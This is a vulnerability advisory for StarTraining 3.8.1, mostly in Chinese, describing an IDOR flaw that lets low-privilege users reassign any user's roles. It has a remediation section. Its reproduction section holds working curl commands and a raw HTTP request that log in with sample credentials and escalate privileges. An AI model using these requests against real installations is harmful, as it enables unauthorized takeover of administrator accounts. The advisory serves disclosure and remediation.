

# StarTraining — 数据权限校验失效导致任意用户角色重分配（IDOR 提权） (ST-VULN-004)

| 项 | 内容 |
|----|------|
| Vendor | zhistaredu |
| Product | StarTraining（职星学院） |
| Version | 3.8.1 |
| Type | Improper Authorization |
| CWE | CWE-639 / CWE-862 |
| 认证 | Any authenticated user (low-priv token sufficient) |
| 严重度 | Critical |

## 说明

SysUser.isAdmin(String) 只要 userId 非空就当管理员，checkUserDataScope 等于没写。低权限用户能给别人改角色。

## 根因

isAdmin 逻辑写错；authRole 接口也没 @PreAuthorize。

## 利用链接 / 复现

低权限账号：`wukong` / `admin123`，或伪造低权限 JWT。

```bash
# 登录拿 token
TOK=$(curl -s -X POST 'http://127.0.0.1:8900/login' -H 'Content-Type: application/json' \
  -d '{"username":"wukong","password":"admin123"}' | python3 -c "import sys,json;print(json.load(sys.stdin)['data']['token'])")

# 读任意用户
curl -s 'http://127.0.0.1:8900/system/user/fa36ec75-160a-47e4-8140-ef1e94c5d329' -H "Authorization: $TOK"

# 给管理员重配角色
curl -s -X PUT 'http://127.0.0.1:8900/system/user/authRole' \
  -H "Authorization: $TOK" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'userId=fa36ec75-160a-47e4-8140-ef1e94c5d329&roleIds=0cd789a0-1187-4c62-901d-a2801794e27a'
```

接口：

- `GET http://127.0.0.1:8900/system/user/fa36ec75-160a-47e4-8140-ef1e94c5d329`
- `PUT http://127.0.0.1:8900/system/user/authRole`


## 请求包（Yakit）

```http
# Login low user wukong/admin123 or use forged JWT
PUT /system/user/authRole HTTP/1.1
Host: 127.0.0.1:8900
Authorization: LOW_USER_TOKEN
Content-Type: application/x-www-form-urlencoded
Connection: close

userId=fa36ec75-160a-47e4-8140-ef1e94c5d329&roleIds=0cd789a0-1187-4c62-901d-a2801794e27a
```

期望：wukong 的 token 调 PUT /system/user/authRole 返回操作成功。

## 截图



## 影响

租户内横向/纵向提权。

## 修复

按真实管理员标志判断；接口补权限校验；校验 roleIds 范围。

## 关联

- 本地报告：`../POC_VERIFICATION_REPORT.md`
- 脚本：`poc_verify/startraining_poc_verify.py` / `startraining_jwt_forge.py`
